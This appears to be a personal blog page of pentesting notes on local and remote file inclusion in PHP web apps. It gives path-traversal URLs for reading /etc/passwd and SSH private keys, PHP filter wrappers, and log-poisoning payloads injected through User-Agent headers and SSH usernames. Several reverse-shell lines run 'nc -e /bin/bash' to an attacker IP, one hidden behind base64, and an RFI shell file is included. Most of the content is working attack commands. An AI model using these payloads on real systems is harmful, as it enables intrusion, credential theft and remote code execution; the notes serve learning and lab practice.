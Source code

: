 ```yaml
---
layout: post
title: 'Notes | LFI & RFI'
permalink: /notes/web/lfi-rfi/
---
```


# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
{% highlight plain %}
http://localhost/example.php?file=../../../../../../../etc/passwd
http://localhost/example.php?file=../../../../../../windows/system32/drivers/etc/hosts
{% endhighlight %}

With the terminal we can check easily:
{% highlight bash %}
> curl -s "http://localhost/example.php?file=/etc/passwd"
{% endhighlight %}
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
{% highlight bash %}
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
{% endhighlight %}

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
{% highlight php %}
<?passthru('nc -e /bin/bash <ip> <port>');?>
{% endhighlight %}
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
{% highlight bash %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
{% endhighlight %}
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
{% highlight bash %}
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
{% endhighlight %}
- Then we send this "user" to the log:
{% highlight bash %}
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
{% endhighlight %}
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
{% highlight bash %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
{% endhighlight %}


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
{% highlight php %}
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
{% endhighlight %}

Then we change the url with:
{% highlight plain %}
...?index=http://<ip>/revershell.txt
{% endhighlight %}
And then we can execute code.